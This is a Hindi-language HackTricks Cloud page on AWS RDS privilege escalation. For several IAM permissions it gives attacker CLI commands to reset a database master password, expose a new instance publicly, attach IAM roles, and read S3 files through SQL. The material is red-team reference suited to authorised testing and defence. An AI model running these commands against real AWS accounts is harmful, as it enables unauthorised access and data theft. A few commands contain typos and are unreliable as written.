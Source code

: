 # AWS - RDS विशेषाधिकार बढ़ाना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## RDS - संबंधित डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** की आवश्यकता होगी (वे सामान्यत: केवल नेटवर्क के अंदर से ही पहुंचे जा सकते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजना।

### rds-db:connect

[**दस्तावेज़**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार इस अनुमति वाले उपयोगकर्ता को डीबी इंस्टेंस से कनेक्ट करने की अनुमति हो सकती है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग करें

#### Postgresql (Aurora)

{% hint style="success" %}
यदि **`SELECT datname FROM pg_database;`** चलाते समय आपको एक डेटाबेस मिलता है जिसका नाम **`rdsadmin`** है, तो आप जान जाते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

सबसे पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप इसे स्थापित एक्सटेंशन्स देखकर जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप यह मान सकते हैं कि इस डेटाबेस के **S3 पर किसी प्रकार का एक्सेस** है (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हो सकते हैं)।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है तो आप देख सकते हैं कि क्या **क्लस्टर में कोई IAM Role जुड़ा हुआ** है फ़ील्ड **`AssociatedRoles`** में। यदि हां, तो आप यह मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुँचने के लिए तैयार की गई थी**। रोल के **नाम** (या यदि आप **रोल की अनुमतियों** को प्राप्त कर सकते हैं) के आधार पर आप **अनुमान लगा सकते** हैं कि डेटाबेस के पास किस प्रकार का अतिरिक्त एक्सेस है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने** के लिए आपको पूरा पथ पता होना चाहिए। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** होते, तो आप इनका उपयोग करके S3 डेटा तक पहुंच सकते थे:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **को S3 तक पहुंचने के लिए किसी भी पैरामीटर समूह चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql में, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

mysql के अंदर **`show variables;`** चलाएं और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुंचने के लिए तैयार है।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है तो आप जांच सकते हैं कि क्लस्टर के पास कोई **संबंधित भूमिका** है, जिसका मतलब आम तौर पर AWS सेवाओं तक पहुंच है)।

अब, **एक बकेट के अंदर एक फ़ाइल पढ़ने** के लिए आपको पूरा पथ पता होना चाहिए। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` अनुमतियाँ हैं, **एक मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। यह हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को **संशोधित करने** की अनुमति दे सकता है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ डीबीज़ अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे aprameter समूहों में भूमिका ARN को निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

केवल इस अनुमति के साथ ही एक हमलावर एक **मौजूदा क्लस्टर के भीतर एक नया इंस्टेंस** बना सकता है जिसमें पहले से ही एक **IAM भूमिका** जुड़ी होती है। उसे मास्टर उपयोगकर्ता पासवर्ड बदलने की अनुमति नहीं होगी, लेकिन वह नए डेटाबेस इंस्टेंस को इंटरनेट पर प्रकट कर सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
कार्य: जांच
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` अनुमतियाँ हैं, **एक नया RDS इंस्टेंस एक निर्दिष्ट भूमिका संलग्न करके बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुंच सकता है** या इंस्टेंस के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए कुछ आवश्यकताएँ भूमिका/इंस्टेंस-प्रोफ़ाइल की (यहाँ से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल को आपके खाते में मौजूद होना चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 को अनुमतियाँ स्वीकार करने के लिए हों।
* इंस्टेंस प्रोफ़ाइल नाम और संबंधित IAM भूमिका नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: आरडीएस इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन करने की अनुमति।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` और `iam:PassRole` अनुमतियों के साथ एक हमलावर **मौजूदा आरडीएस इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। यह हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को संशोधित करने की अनुमति दे सकता है।

{% hint style="warning" %}
इसके लिए डीबी इंस्टेंस को एक क्लस्टर के बाहर होना चाहिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: आरडीएस इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में पीआर जमा करके।

</details>
